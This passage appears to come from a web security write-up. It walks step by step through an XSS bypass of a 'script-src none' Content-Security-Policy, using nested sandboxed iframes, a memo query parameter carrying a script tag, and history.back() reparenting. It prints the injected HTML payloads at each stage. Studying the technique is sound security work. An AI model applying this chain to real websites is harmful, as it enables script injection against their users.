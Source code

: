 At this point, the content of this win will be:

``` html
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
  <iframe srcdoc='
    <iframe
      sandbox="allow-same-origin"
      src="/memo?memo=<script>alert(1)</script>">
    </iframe>
  '>
  </iframe>
</body>
```

If we zoom in a bit on that sandbox iframe, the content inside this iframe is:

``` html
<head></head> <!-- Empty head, no CSP -->
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```


Due to the sandbox, the script will not execute, so there will be no CSP. However, because of the sandbox, the script in the srcdoc will also not execute.

Next, we navigate to another page and open `/memo?memo=<iframe></iframe>`, at which point the content in the cookie will be replaced.

Then we use `history.back()` to go back. At this time, as mentioned earlier, the webpage will reload, so the HTML of the webpage becomes:


``` html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<body>
    <iframe srcdoc='
        <iframe></iframe>
    '>
    </iframe>
</body>
```

Although it looks empty, due to the reparenting behavior mentioned earlier, the content of that empty iframe will be the previous `/memo?memo=<script>alert(1)</script>`.

Next, also because of the previously mentioned characteristic: "the sandbox attribute always follows the current page," the sandbox of this iframe is now gone. Since the sandbox is gone, the content becomes:

``` html
<head>
    <meta http-equiv="Content-Security-Policy" content="script-src 'none';">
</head>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```
